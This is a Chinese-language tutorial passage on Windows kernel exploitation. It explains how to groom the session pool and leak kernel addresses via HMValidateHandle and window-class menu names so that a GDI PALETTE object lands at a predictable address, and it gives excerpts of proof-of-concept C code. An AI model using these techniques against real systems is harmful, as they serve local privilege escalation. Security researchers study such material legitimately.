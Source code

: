 ```c
	PALETTEENTRY    apalColors[1]; 
}PALETTE;

```

### Find Palette Pool

从Windbg中搜索创建的调色板 PALETTE结构
> !poolfind Gl?8 -session

### 释放 Palette

DeleteObject(HPalette);

### 获取 Palette 地址

创建窗口时通过设置窗口类菜单名称,可以分配任意大小的Kernel Session Pool,可以利用这一点来预测Palette结构的地址

wndclass.lpszMenuName = (LPCWSTR)LpszMNames;

(为了避免有相同大小的空闲 Session Pool,先申请 N个 同大小的Palette结构,来占用内存会提高成功几率)

首先算好Palette结构需要占坑的大小,接着创建窗口,使用 HMValidateHandle 函数(BITMAP一节中有介绍)获取tagCls.lpszMenuName 指向的地址,此处为占坑地址,释放窗口,释放窗口类,创建Palette结构即可

tagCls地址获取方法

TagWnd = HMValidateHandle(HWND,1);

返回值为 tagWnd桌面堆在用户态映射的地址

TagWnd.head.pSelf 为 pSelf ,是TagWnd结构在内核池中的地址

Kenrl_Pool_OffSet(DeskTop Heap) = TagWnd.head.pSelf - TagWnd 可以算出 用户态映射的桌面堆 和内核态桌面堆的偏移

TagWnd.pcls 为当前窗口类的地址,也就是tagCls结构的内核地址

TagWnd.pcls - Kenrl_Pool_OffSet(DeskTop Heap) = TagCls 即可获取到用户态映射下TagCls结构的地址

TagCls.lpszMenuName 为 分配的窗口菜单名称,分配在Session Pool里

获取到 TagCls.lpszMenuName 的地址后,释放窗口,以及窗口类,创建PALETTE即可复用

以下为Poc中部分代码

```c

  HINSTANCE hInstance;
	HWND hwnd, pwd;     
	WNDCLASS wndclass = { 0 }; 
	memset(LpszMNames, 'F', 0x1000-0x08);
	hInstance = GetModuleHandleA(0);
	wndclass.style = CS_HREDRAW | CS_VREDRAW;
	wndclass.lpfnWndProc = DefWindowProc;
	wndclass.hInstance = hInstance;
	wndclass.hIcon = LoadIcon(NULL, IDI_APPLICATION);
	wndclass.hCursor = LoadCursor(NULL, IDC_ARROW);
	wndclass.hbrBackground = (HBRUSH)GetStockObject(WHITE_BRUSH);
	wndclass.lpszMenuName = (LPCWSTR)LpszMNames;
	wndclass.lpszClassName = TEXT("case");

	if (!RegisterClass(&wndclass)){
		printf("Register Window Class Error!\n");
		return 1;
	}

  hwnd = CreateWindowEx(0, wndclass.lpszClassName, TEXT("WORDS"), 0, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL);

	printf("hwnd:%p\n", hwnd);
```